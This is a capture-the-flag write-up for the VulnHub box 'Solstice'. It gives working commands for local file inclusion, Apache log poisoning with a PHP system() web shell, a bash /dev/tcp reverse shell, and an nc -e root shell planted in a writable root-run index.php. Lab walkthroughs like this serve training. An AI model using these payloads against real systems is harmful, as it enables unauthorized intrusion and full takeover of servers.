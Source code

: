 ```yaml
---
description: VulnHub box - Intermediate level
---
```


# Solstice

## Enumeration

Let's start with nmap. We found a bunch of open ports.

After taking a look on all ports, some of them are running web servers with Apache, NGINX and python.

```
$ NMAP OUTPUT
```

We have something different on the port 8593.  
After some enumeration, we could see that index.php refer to something called "book=list"

```text
curl "http://<IP>:8593/index.php?book=list"

# After checking, we have a Local File Inclusion (LFI)
curl "http://<IP>:8593/index.php?book=../../../../../../etc/passwd"
```

## Get a shell

We know that LFI is vulnerable to "Log Poisoning" like Apache's "access.log" file.  
Let's try to access to it :

```text
curl "http://<IP>:8593/index.php?book=../../../../../../var/log/apache2/access.log"
```

The "access.log" file is accessible. Let's try to inject PHP code inside to get a reverse shell !

1- Access to port 80 to register an entry into log file \(because port 80 is running Apache\)  
2- Verify that we have another entry into the log file via the LFI  
3- Let's inject our PHP payload : &lt;?php system\($\_GET\['cmd'\]\);?&gt;  
**NOTE : single quote is used to bypass the suppression of double quote from apache**

```text
curl "http://<IP>/<?php system($_GET['cmd']);?>"
```

4- Now, try to access to Apache's "access.log" file, include the cmd parameter, and try to run a command like this :

```text
curl "http://<IP>:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=whoami"
```

Perfect, the command was run and we got an output "www-data".  
Let's get a reverse shell from this point !

5- Before we can send our reverse shell command, we need to URL encode it.  
We can do it with **hURL** tool :

```text
hURL -U "/bin/bash -c 'bash -i > /dev/tcp/<MyIP>/4444 0>&1'"
OUTPUT : %2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%20%2Fdev%2Ftcp%2F%3CMyIP%3E%2F4444%200%3E%261%27

#Send our payload with LFI :
curl "http://<IP>:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%20%2Fdev%2Ftcp%2F%3CMyIP%3E%2F4444%200%3E%261%27
"
```

We now have a shell on the victim machine ! Let's start to escalate our privileges.

## Privilege Escalation

Once we have a shell, we will check the running process :

```text
ps -aux
```

After lot of enumeration, we could see that one PHP instance is runnning with root privilege.  
This PHP instance is running on http://localhost:57 and pointing to /var/tmp/sv. An index.php file is available and writable from www-data user.  
We could use it to escalate our privilege.

```text
www-data@solstice:/var/tmp/sv$ echo "<?php system('nc <IP> 4443 -e /bin/bash');?>" >> index.php
# Let's run a listener on our machine before run the curl command
www-data@solstice:/var/tmp/sv$ curl http://127.0.0.1:57/
# Get it ! We have Root shell !
```

![Steps from LFI to privilege escalation](../../.gitbook/assets/2021-08-20_19h04_21.png)

